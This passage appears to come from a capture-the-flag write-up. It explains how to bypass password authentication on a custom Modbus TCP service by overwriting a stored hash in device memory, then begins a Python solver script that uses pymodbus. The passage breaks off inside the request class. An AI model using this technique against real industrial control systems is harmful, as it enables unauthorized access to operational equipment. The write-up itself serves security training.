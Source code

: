 With the above helper function and the two lines of code below when we execute the client we will get the index of the entry start address.

```
python3 client.py 

<SNIP>
1019
```

Now that we know that the start address is 1019, we can attempt to overwrite the hash with a new value, which we know the plaintext value of. This way we can bypass the password restriction and access the secret. 

# Solution: 

Now that we have a plan to bypass the password restriction, let's write the necessary code to perform the hash overwrite. Since the entry contains 5 additional bytes, we will need to create a loop that will change the entry and then attempt to read the secret until we overwrite the correct place where the hash is located. The final client code (solver) will be formatted as follows:

```python
# Tested on: 
# python 3.9.18 
# pymodbus==3.5.4

from pymodbus.client import ModbusTcpClient
from pymodbus.pdu import ModbusRequest, ModbusResponse
import struct
import logging
from pymodbus.transaction import ModbusSocketFramer
import time
import hashlib

# Configure logging to display debug messages 
# form pymodbus library to inspect Modbus traffic
logging.basicConfig()
logging.getLogger().setLevel(logging.ERROR)

HOST_IP = '94.237.57.119' # CHANGE IP
HOST_PORT = 31781       # CHANGE PORT

CUSTOM_FUNCTION_CODE = 0x64 # CHANGE FUNCTION CODE
SESSION = 0x00
ERROR_CODES = {
    0xE009: 'Authorization Error: Invalid password'
}

READ_MEMORY_BLOCK = 0x20
WRITE_MEMORY_BLOCK = 0x21
GET_SECRET = 0x22

#Class templates for custom Modbus Request and Response 
# You must configure properly the classes bellow

class CustomProtocolRequest(ModbusRequest):
    function_code = 0x64

    def __init__(self, session= 0x00, code= 0, data=None, **kwargs):
        super().__init__(**kwargs)
        self.session = session
        self.code = code
        self.data = data if data is not None else []

    def encode(self):
```